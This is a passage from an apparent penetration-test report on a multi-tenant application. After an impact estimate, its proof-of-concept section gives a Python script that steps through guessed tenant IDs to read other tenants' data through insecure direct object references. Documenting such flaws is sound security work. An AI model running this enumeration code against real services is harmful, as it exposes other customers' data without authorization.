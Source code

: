 ```
└── Total Impact: $100M+ over 2-year recovery period
```

## 9. Proof-of-Concept Code and Evidence

### 9.1 Multi-Tenant Bypass Exploit Code

```python
#!/usr/bin/env python3
"""
Multi-Tenant Boundary Bypass Exploitation Tool
WARNING: FOR AUTHORIZED PENETRATION TESTING ONLY
"""

import requests
import json
import time
from typing import List, Dict

class MultiTenantExploit:
    def __init__(self, base_url: str, token: str):
        self.base_url = base_url
        self.token = token
        self.session = requests.Session()
        self.session.headers.update({
            'Authorization': f'Bearer {token}',
            'Content-Type': 'application/json'
        })
    
    def enumerate_tenant_data(self, resource_type: str) -> List[Dict]:
        """Enumerate cross-tenant data via direct object references"""
        exposed_data = []
        
        # Common tenant ID patterns observed
        tenant_patterns = [
            'tenant_a', 'tenant_b', 'tenant_c',
            'customer_001', 'customer_002', 'customer_003',
            'org_alpha', 'org_beta', 'org_gamma'
        ]
        
        for tenant_id in tenant_patterns:
            try:
                # Attempt cross-tenant resource access
                response = self.session.get(
                    f'{self.base_url}/api/{resource_type}?tenant={tenant_id}'
                )
                
                if response.status_code == 200:
                    data = response.json()
                    if data and 'tenant_id' in str(data):
                        exposed_data.append({
                            'target_tenant': tenant_id,
                            'resource_type': resource_type,
                            'data_count': len(data.get('data', [])),
                            'sensitive_info': self.extract_sensitive_info(data)
                        })
                        print(f"✅ Cross-tenant access: {tenant_id} -> {len(data.get('data', []))} records")
                
            except Exception as e:
                print(f"❌ Error accessing {tenant_id}: {e}")
        
        return exposed_data
```
